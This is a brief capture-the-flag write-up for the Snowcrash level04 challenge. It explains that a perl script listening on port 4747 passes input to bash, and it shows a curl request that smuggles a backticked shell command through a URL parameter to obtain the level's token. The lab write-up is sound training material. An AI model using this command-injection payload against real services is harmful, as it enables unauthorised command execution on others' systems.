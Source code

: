 # Snowcrash04

There's a perl file in our home indicating that a server is listening on 4747
it calls bash code, let's inject

```sh
level04:~$ curl localhost:4747?x='`getflag`'
Check flag.Here is your token : REDACTED
```

That was easy